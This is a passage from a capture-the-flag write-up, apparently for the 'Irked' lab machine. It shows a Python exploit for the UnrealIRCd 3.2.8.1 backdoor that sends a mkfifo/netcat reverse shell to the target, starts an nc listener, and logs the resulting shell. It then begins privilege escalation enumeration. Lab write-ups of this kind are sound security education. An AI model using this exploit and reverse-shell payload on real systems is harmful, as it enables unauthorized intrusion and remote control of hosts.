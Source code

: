 ```
 21 
 22 print("[*] Sending payload")
 23 s.send(f"AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc {lhost} {lport} >/tmp/f\n".encode())
 24 s.close()
 25 print("[+] Payload sent. Closing socket.")
 26 
 27 print("[*] Opening listener. Callback should come within a minute")
 28 try:
 29     ncsh = subprocess.Popen(f"nc -nl {lhost} {lport}", shell=True)
 30     ncsh.poll()
 31     ncsh.wait()
 32 except:
 33     print("\n[!] Exiting shell")

```

Here’s what it does:
- Checks for right number of args and set variables, or prints usage. [Lines 7-11]
- Connects to the host, gets first message from host. [13-20]
- Sends payload and closes socket. [22-25]
- Uses `subprocess` to run a `nc` listener, waits for callback, and then lets me interact with it until ctrl-c to exit. [27-33]

Here’s how it runs:

```

root@kali# ./unreal_3.2.8.1_exploit.py 10.10.10.117 6697 10.10.14.14 443
[*] Connecting to 10.10.10.117:6697
[*] Sending payload
[+] Payload sent. Closing socket.
[*] Opening listener. Callback should come within a minute
bash: cannot set terminal process group (634): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$ id
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)

```

## Privesc: ircd –> djmardov

### Enumeration

I can find `user.txt`, but I can’t read it:

```

ircd@irked:/home/djmardov/Documents$ cat user.txt 
cat: user.txt: Permission denied

```
